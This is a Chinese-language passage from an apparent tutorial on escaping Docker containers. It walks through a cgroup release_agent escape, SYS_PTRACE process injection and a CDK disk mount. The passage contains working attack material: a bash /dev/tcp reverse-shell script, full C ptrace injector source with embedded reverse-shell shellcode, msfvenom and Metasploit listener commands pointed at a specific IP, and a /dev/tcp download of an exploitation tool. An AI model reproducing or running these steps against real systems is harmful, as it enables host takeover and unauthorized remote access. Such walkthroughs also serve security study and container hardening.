

设置 release\_agent 为一个脚本的路径，通知事件触发时由内核执行该脚本

echo "$host\_path/cmd" > /tmp/test3/release\_agent

创建反弹 shell 的脚本，并写入其内容

```
echo '#!/bin/sh' > /cmd 
echo "bash -i >& /dev/tcp/ip/8888 0>&1" >> /cmd
```



将当前 shell 的 PID 写入 /tmp/test3/conf/cgroup.procs 文件 ，意味着当前 shell 进程将被“添加”到这个 cgroup 中，其他的进程被清空只保留当前的shell进程。

触发 notify\_on\_release，清空任务后，release\_agent 自动执行

sh -c "echo \$\$ > /tmp/test3/conf/cgroup.procs"

$$ 是一个特殊变量，它代表当前 shell 进程的 PID（进程 ID）



同时要注意执行文件的**赋权**！

攻击机 vps 监听对应端口，获得宿主机 shell，成功逃逸

### SYS\_PTRACE 进程注入

用户授予了容器SYS\_PTRACE权限，并且与宿主机共享一个进程命名空间(--pid=host)，使得在容器内可以查看到宿主机的进程，并可以利用进程注入，反弹shell，从而实现逃逸。

利用条件：

1.容器有SYS\_PTRACE权限

2.与宿主机共享一个进程命名空间

3.容器以root权限运行

环境搭建如下：

docker run -itd --pid=host --cap-add=SYS\_PTRACE ubuntu:18.04

判断容器是否有 SYS\_PTRACE 权限

* 如果输出中包含 cap\_sys\_ptrace 字段，说明容器具有该权限。
* 如果没有 cap\_sys\_ptrace，说明容器缺少此能力。

capsh --print | grep cap\_sys\_ptrace



接下来判断是否与宿主机共享进程命名空间如果能看到宿主机的进程（如 Docker 守护进程 dockerd），说明共享了宿主机的进程命名空间。

ps aux | grep dockerd



条件均符合，那么接下来我们开始实验。

下载进程注入的 c 文件<https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c>

```
/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 74

unsigned char *shellcode = 
	"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
	"\x48\xb9\x02\x00\x11\xd7\x9c\xee\xe9\x71\x51\x48\x89\xe6"
	"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
	"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
	"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
	"\x89\xe6\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:
\t%s pid
", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d
", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...
");
  wait (NULL);

  printf ("+ Getting Registers
");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p
", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p
", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!
");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;

}
```

然后启动msf，生成shellcode

msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=156.238.233.113 LPORT=4567 -f c



生成shellcode后替换掉进程注入c文件中的shellcode部分。



查看 进程信息，找个 root 用户的进程进行注入

```
ps -ef
./inject <pid的值>
```



我们先开启msf的监听好了

```
use multi/handler
set payload linux/x64/shell_reverse_tcp
set lhost 0.0.0.0
set lport 4567
run
```

然后我们进行进程注入

./inject 1183940



这里寻找可用进程我找了一小会。/bin/bash一眼顶针。





### 容器漏洞/内核漏洞

这里其实就是docker的历史漏洞或者一些内核漏洞。

docker run -it --rm --privileged dockerescape:v1 /bin/bash

接下来我们展示一下cdk一把梭，

项目地址：<https://github.com/cdk-team/CDK>

需要先将工具直接传到 拿下的 docker 容器里。

上传方法如下：

nc -lvp 4567 < cdk\_linux\_amd64

然后在拿下的 docker 容器里面执行命令进行获取

cat < /dev/tcp/156.238.233.113/4567 > cdk\_linux\_amd64





首先进行一下信息收集：

```
chmod 777 ./cdk_linux_amd64
./cdk_linux_amd64 evaluate
```



./cdk\_linux\_amd64 run mount-disk



然后我们进目录看一下，发现成功挂载



后续的操作其实就跟先前所说的定时任务反弹shell和写入ssh公钥相同了。

## 参考文章

<https://xz.aliyun.com/news/17111>
